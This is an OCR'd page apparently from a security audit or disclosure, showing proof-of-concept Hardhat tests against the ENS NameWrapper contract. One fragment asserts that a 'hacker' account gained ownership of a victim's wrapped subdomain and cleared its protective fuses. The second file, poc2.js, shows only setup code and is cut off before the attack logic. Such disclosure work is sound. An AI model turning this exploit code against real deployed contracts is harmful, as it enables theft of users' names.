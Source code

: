 ```javascript
      ///////////////////////////

      // XXX: [1] the owner of wrappedSubTokenId transfer from the victim to the hacker
      // XXX: [2] the fuses of wrappedSubTokenId becomes 0 from full-protected
      expect(await NameWrapper.ownerOf(wrappedSubTokenId)).to.equal(hacker)
      expect((await NameWrapper.getFuses(wrappedSubTokenId))[0]).to.equal(0)
    })
  })
})
```

#### poc2.js
```javascript
const packet = require('dns-packet')
const { ethers } = require('hardhat')
const { utils } = ethers
const { use, expect } = require('chai')
const { solidity } = require('ethereum-waffle')
const n = require('eth-ens-namehash')
const namehash = n.hash
const { deploy } = require('../test-utils/contracts')
const { keccak256 } = require('ethers/lib/utils')

use(solidity)

const labelhash = (label) => utils.keccak256(utils.toUtf8Bytes(label))
const ROOT_NODE =
  '0x0000000000000000000000000000000000000000000000000000000000000000'

const EMPTY_ADDRESS = '0x0000000000000000000000000000000000000000'

function encodeName(name) {
  return '0x' + packet.name.encode(name).toString('hex')
}

const CANNOT_UNWRAP = 1
const CANNOT_BURN_FUSES = 2
const CANNOT_TRANSFER = 4
const CANNOT_SET_RESOLVER = 8
const CANNOT_SET_TTL = 16
const CANNOT_CREATE_SUBDOMAIN = 32
const PARENT_CANNOT_CONTROL = 64
const CAN_DO_EVERYTHING = 0

describe('PoC 2', () => {
  let ENSRegistry
  let BaseRegistrar
  let NameWrapper
  let NameWrapperV
  let MetaDataservice
  let signers
  let dev
  let victim
  let hacker
  let result
  let MAX_EXPIRY = 2n ** 64n - 1n

  before(async () => {
    signers = await ethers.getSigners()
    dev = await signers[0].getAddress()
    victim = await signers[1].getAddress()
    hacker = await signers[2].getAddress()

```